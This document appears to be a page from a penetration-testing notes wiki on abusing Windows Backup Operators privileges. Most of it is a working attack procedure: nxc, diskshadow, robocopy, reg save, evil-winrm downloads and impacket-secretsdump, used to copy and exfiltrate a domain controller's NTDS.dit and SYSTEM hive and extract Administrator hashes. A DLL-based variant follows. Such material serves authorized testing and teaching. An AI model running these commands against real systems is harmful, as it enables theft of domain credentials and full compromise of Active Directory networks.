 # Backup Operators

## Information

Backup Operators can **back up and restore all files on a computer**, including OS files, regardless of the permissions that protect those files. Because members of this group can replace files on DCs, they're considered **service administrators**.

> Well known SID/RID: `S-1-5-32-551`.

<table><thead><tr><th width="205">Privilege</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

{% tabs %}
{% tab title="nxc" %}
If the controlled user has the `SeBackupPrivilege`, it can dump `SAM`, `SYSTEM`, `SECURITY` and therefore the `NTDS.dit` on the target system. No admin privs needed!

```bash
nxc smb <target-ip> -u <user> -p <pass> -M backup_operator
```
{% endtab %}

{% tab title="Diskshadow" %}
Create a [**diskshadow**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) script from the attack host to expose the `c:` drive:

```bash
# Create a diskshadow script
nano diskshadow_script
# List its content
cat diskshadow_script
set context persistent nowriters
add volume c: alias random
create
expose %random% z:
# Convert file into a Windows-compatible format
$ sudo unix2dos diskshadow_script
unix2dos: converting file diskshadow_script to DOS format...
```

Transfer the script to the target host and execute the following steps. In the example below, `evil-winrm` is used to transfer the files between the attack and the target host, via its `upload` and `download` methods:

```powershell
# Move within a writeable directory
cd c:\windows\temp
# Upload the diskshadow script
upload diskshadow_script
# Expose the shadow copy
diskshadow /s diskshadow_script
# Copy the ntds.dit database
robocopy /b z:\windows\ntds . ntds.dit
# Copy the system.hive file
reg save hklm\system c:\windows\temp\system.hive
# Download both files
download ntds.dit
download system.hive
```

Dump the `ntds.dit` from the attack host:

{% code overflow="wrap" %}
```bash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```
{% endcode %}

For an example of the above method check [here](../../../../../../boxes/hard/blackfield.md#exfiltrating-victory).
{% endtab %}

{% tab title="DLLs" %}
Download the `SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll` from [here](https://github.com/giuliano108/SeBackupPrivilege) on the attack host and transfer them to the target along with the diskshadow script found on the previous tab (on the example below `evil-winrm` is used):

```powershell
# Move to a writeable directory
cd C:\Temp
# Upload files
upload diskshadow_script
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll
# Import DLLs into memory
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
# Expose the shadow copy
diskshadow /s raj.dsh
```

Unlike [Method 1](backup-operators.md#method-1), this time we will be using the `Copy-FileSebackupPrivilege` cmdlet (part of the DLL files) to copy the `ntds.dit` file from the `z:` volume to the `Temp` directory:

```powershell
# Copy ntds.dit to Temp
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
# Copy system.hive
reg save hklm\system c:\Temp\system
# Exfiltrate files
download ntds.dit
download system
```

Dump the `ntds.dit` from the attack host:

{% code overflow="wrap" %}
```bash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}
